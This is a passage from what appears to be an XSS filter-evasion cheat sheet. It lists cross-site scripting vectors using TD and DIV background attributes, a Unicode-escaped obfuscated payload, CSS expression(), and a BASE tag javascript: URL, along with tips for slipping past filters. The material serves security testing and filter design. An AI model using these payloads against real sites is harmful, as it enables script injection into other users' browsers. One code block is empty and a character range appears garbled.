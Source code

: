 ````
Just like above, TD’s are vulnerable to BACKGROUNDs containing JavaScript XSS vectors:

`<TABLE><TD BACKGROUND="javascript:alert('XSS')">`

DIV
---

### DIV Background-image

`<DIV STYLE="background-image: url(javascript:alert('XSS'))">`

### DIV Background-image with Unicoded XSS Exploit

This has been modified slightly to obfuscate the url parameter. The original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail:

`<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">`

### DIV Background-image Plus Extra Characters

Rnaske built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE and Netscape 8.1 in secure site mode. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

`<DIV STYLE="background-image: url(javascript:alert('XSS'))">`

### DIV Expression

A variant of this was effective against a real world cross site scripting filter using a newline between the colon and “expression”:

`<DIV STYLE="width: expression(alert('XSS'));">`

Downlevel-Hidden Block
----------------------

Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine mode). Some websites consider anything inside a comment block to be safe and therefore does not need to be removed, which allows our Cross Site Scripting vector. Or the system could add comment tags around something to attempt to render it harmless. As we can see, that probably wouldn’t do the job:

```

```

BASE Tag
--------

Works in IE and Netscape 8.1 in safe mode. You need the `//` to comment out the next characters so you won’t get a JavaScript error and your XSS tag will render. Also, this relies on the fact that the website uses dynamically placed images like `images/image.jpg` rather than full paths. If the path includes a leading forward slash like `/images/image.jpg` you can remove one slash from this vector (as long as there are two to begin the comment this will work):

`<BASE HREF="javascript:alert('XSS');//">`

OBJECT Tag
----------

````